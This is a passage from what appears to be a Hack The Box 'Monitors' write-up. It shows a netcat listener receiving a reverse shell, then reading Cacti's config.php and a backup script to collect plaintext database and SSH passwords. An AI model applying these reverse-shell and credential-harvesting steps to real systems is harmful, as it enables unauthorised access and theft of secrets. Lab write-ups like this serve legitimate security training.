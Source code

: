 ```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ nc -nvlp 4444     
listening on [any] 4444 ...
connect to [10.10.14.199] from (UNKNOWN) [10.129.232.111] 41668
/bin/sh: 0: can\'t access tty; job control turned off
$ whoami
www-data
```

### Shell as www-data

```sh
www-data@monitors:/usr/share/cacti/cacti/include$ cat config.php
cat config.php
[...snip...]
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cacti';
$database_password = 'cactipass';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
[...snip...]
```

Didn't see anything interesting in the databases... womp womp. Let's keep searching.

```sh
www-data@monitors:/etc/systemd/system$ cat cacti-backup.service
cat cacti-backup.service
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
```

Awesome, looks like a custom service! Let's take a look at `/home/marcus/.backup/backup.sh`

```sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```
